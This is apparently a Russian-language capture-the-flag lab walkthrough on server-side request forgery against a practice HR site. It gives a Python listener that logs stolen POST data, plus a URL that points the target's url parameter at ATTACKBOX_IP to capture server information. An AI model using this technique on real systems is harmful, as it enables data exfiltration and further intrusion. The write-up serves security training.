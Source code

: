 Анализ исходного кода страницы показывает, что она считывает url параметры и, не выполняя никакой проверки, 
отправляет информацию на сервер, указанный в url параметре.  
Здесь злоумышленник может перенаправить запрос на свой сервер, получив таким образом дополнительную информацию для 
эксплуатации или кражи данных.  
На вашем AttackBox создайте новый файл с именем server.py и добавьте в него следующий код:
сервер.py
```commandline
from http.server import SimpleHTTPRequestHandler, HTTPServer
from urllib.parse import unquote
class CustomRequestHandler(SimpleHTTPRequestHandler):

    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')  # Allow requests from any origin
        self.send_header('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
        self.send_header('Access-Control-Allow-Headers', 'Content-Type')
        super().end_headers()

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Hello, GET request!')

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')

        self.send_response(200)
        self.end_headers()

        # Log the POST data to data.html
        with open('data.html', 'a') as file:
            file.write(post_data + '\n')
        response = f'THM, POST request! Received data: {post_data}'
        self.wfile.write(response.encode('utf-8'))

if __name__ == '__main__':
    server_address = ('', 8080)
    httpd = HTTPServer(server_address, CustomRequestHandler)
    print('Server running on http://localhost:8080/')
    httpd.serve_forever()
```

Приведенный выше код получит весь контент и сохранит его в файле data.html на сервере.  Чтобы получить данные, нам 
сначала нужно запустить облегченный сервер. Мы можем сделать это AttackBox с помощью следующих команд:
AttackBox - Терминал
`thm@machine$ sudo chmod +x server.py && sudo python3 server.py`
Теперь откройте браузер и откройте http://hrms.thm/profile.php?url=http://ATTACKBOX_IP:8080, который запишет данные 
в data.html. Откройте data.html файл, содержащий всю необходимую информацию, связанную с сервером, которую можно 
использовать для запуска дальнейших атак.
Перехваченный файл изображения
